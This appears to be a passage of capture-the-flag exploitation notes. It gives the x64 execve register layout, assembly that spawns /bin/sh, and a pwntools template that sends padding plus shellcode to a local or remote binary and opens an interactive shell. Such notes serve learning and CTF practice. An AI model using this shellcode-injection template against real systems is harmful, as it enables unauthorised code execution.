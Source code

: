 ### x64

| Register | Content      |
| -------- | ------------ |
| rax      | syscall code |
| rdi      | path         |
| rsi      | argv         |
| rdx      | envp         |

```as
mov rax, 0x3b                           ; execve code in x64
mov rdi, <address of "/bin/sh\0">
mov rsi, 0
mov rdx, 0
syscall
```

## Python template

```py
#!/usr/bin/env python3

import sys
from pwn import *

if "--remote" in sys.argv:
    p = remote("url", 1337)
else:
    p = process("./path_to_binary")

if "--debug" in sys.argv:
    context.terminal = ["gnome-terminal"]
    gdb.attach(p, """
    b *<address_breakpoint>
    c
    """)

shellcode = asm("""
mov rax, 0x3b
mov rdi, <buffer_address>
mov rsi, 0
mov rdx, 0
syscall
""", arch='amd64')

payload = "A" * 64
payload += shellcode
p.sendline(payload)
p.interactive()
```

